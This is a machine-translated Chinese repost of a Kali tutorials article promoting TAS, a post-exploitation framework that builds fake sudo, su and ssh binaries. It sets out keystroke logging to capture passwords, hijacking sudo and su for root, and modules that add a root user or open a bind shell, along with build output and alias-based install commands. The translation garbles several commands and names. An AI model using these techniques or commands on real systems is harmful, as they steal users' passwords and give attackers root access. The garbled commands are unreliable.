



# TAS:一个很小的框架，可以很容易地操纵 TTY &创建假的二进制文件

> 原文：<https://kalilinuxtutorials.com/tas/>

TAS 是一个很小的框架，可以很容易地操纵 tty 并创建假的二进制文件。该框架有三个主要函数，tas_execv、tas_forkpty 和 tas_tty_loop。

*   **tas_execv:** 这是一个类似于 execv 的函数，但是它并不重新执行当前的二进制文件，这对于创建假的二进制文件非常有用。
*   **tas_forkpty:** 与 forkpty 相同，但是它填充了一个自定义结构，有关更多详细信息，请查看 forkpty 手册页。
*   **tas_tty_loop:** 这里是对 tty 进行操作的地方，你可以为输入和输出设置一个钩子函数，这样就可以存储用户输入的按键或者操作终端输出。(参见 [leet-shell](https://github.com/hc0d3r/tas#leet-shell) )。

这是一个肤浅的概述，检查 tas/fakebins/fun 文件夹中的代码，了解它真正的工作原理。

**Fakebins**

通过操纵 PATH 环境变量，或者通过使用 bash 的别名(或者任何其他支持别名的 shell)，您可以运行另一个程序，而不是用户通常运行的程序。这使得捕获击键和修改命令行来改变原来的程序行为成为可能。

更改某些程序(如 sudo 和 su)的命令行会导致权限提升。

我创建了三个程序作为你可以用这个框架做什么的例子: **sudo** 、 **su** 和 **generic-keylogger** 。

**通用键盘记录器**

顾名思义， **generic-keylogger** 是一个二进制程序，它的作用就像一个键盘记录器，主要思想是用它来获取 ssh、mysql 等程序的密码。

**须藤/须**

它可以用作键盘记录器，或者你可以通过操作命令行以 root 用户身份运行一些[模块](https://github.com/hc0d3r/tas#modules)。

**逐步 cmd 变化:**

*   用户键入`**sudo cmd**`
*   `**fakesudo cmd**`运行
*   fakesudo 执行`**sudo fakesudo cmd**`

在作为 root 运行之后，fakesudo 创建一个子进程来执行一些模块，在主 PID 中，它运行原始命令。

**注意:** fakesudo 只在用户运行`sudo cmd [args]`时改变命令，如果使用了一些额外的标志，那么命令不会被触动。

几乎同样的过程发生在**苏**身上:

*   用户键入`**su -**`
*   `**fakesu -**`运行
*   fakesu 执行`**su - -c fakesu**`

作为 root 运行后，fakesu 创建一个子进程来执行一些模块，在主 PID 中，它运行`bash -i`

**注意:** fakesu 只在用户运行`su`或`su -`时改变命令，如果使用了一些附加标志，则命令不会被触动。

**也读作-[电报刮刀:电报组刮刀工具](https://kalilinuxtutorials.com/telegram-scraper/)**

**模块**

目前，只有三个模块:

*   **add-root-user**–使用/etc/passwd 中的密码创建一个 root 用户。
*   **bind-shell**–监听传入的连接并生成一个 tty shell。
*   **系统**–以 root 用户身份执行命令。

以后我还可以添加更多的模块，但是如果你熟悉 C 语言，我相信以 root 身份修改程序运行你想运行的东西并不是很难，只需要修改几行代码，更改`super()`函数就可以了。

**大楼**

首先，构建基础库:

**$ make
CC .obj/globals.o
CC .obj/getinode.o
CC .obj/tas-execv.o
CC .obj/tty.o
CC .obj/xreadlink.o
AR .obj/libtas.a**

之后，您可以通过运行`**make [target-bin]**`来构建**通用键盘记录器**、 **sudo** 或 **su**

**举例:**

**$ make su
make[1]:进入目录'/home/test/tas/fake bins/su '
[+]配置 fakesu …
启用键盘记录程序？【y/N】y
记录行数【empty = store all】:
log file(default:/tmp/. keys . txt):
用一些好玩的模块？[y/N] n
[+]在/home/test/tas/fake bins/su/config . h
CC su
make[1]:离开目录'/home/test/tas/fake bins/su '**

**例题**

**制造假货:**

**编译:**

$ make generic-key logger
make[1]:进入目录'/home/test/tas/fake bins/generic-key logger '
[+]配置 generic-keylogger …
要记录的行数[empty = store all]: 3
logfile(默认:/tmp/.keys.txt):
[+]在/home/test/tas/fake bins/generic-key logger/config . h
CC generic-key logger
make[1]:离开目录'/home/keys

**安装:**

**$ mkdir ~/。bin $ cp 通用键盘记录器~/。bin/ssh
$ echo "别名 ssh='
$HOME/。bin/ssh'" > > ~/。巴沙尔**

**行动中:**

**使用绑定外壳模块**

**编译:**

make[1]:进入目录'/home/test/tas/fake bins/sudo '
[+]配置 fakesudo …
启用键盘记录器？
使用一些有趣的模块？[y/N]y
[1]add-root-user
[2]bind-shell
[3]system
[4]cancel
>2
监听端口(默认值:1337): 5992
[+]在/home/test/tas/fakebins/sudo/config . h
CC sudo
make[1]:离开目录'/home/test/tas/fake bins/sudo '

**安装:**

**$ cp sudo ~/。sudo $ echo " alias sudo = '
$ HOME/。>须藤' "> ~/。巴沙尔**

**行动中:**

**注释**

有些事情会使假程序无法按预期工作:

*   白名单 sudo 命令。
*   /proc/un valiable(/proc/self/exe 用于获取二进制全名)。

在 fakesudo 中使用键盘记录功能时，sudo 将始终要求输入密码。

**如何保护自己？**

这是一种后利用技术，用于执行权限提升和信息收集，如果您想保护自己，不被入侵是一个很好的开始…

[**Download**](https://github.com/hc0d3r/tas)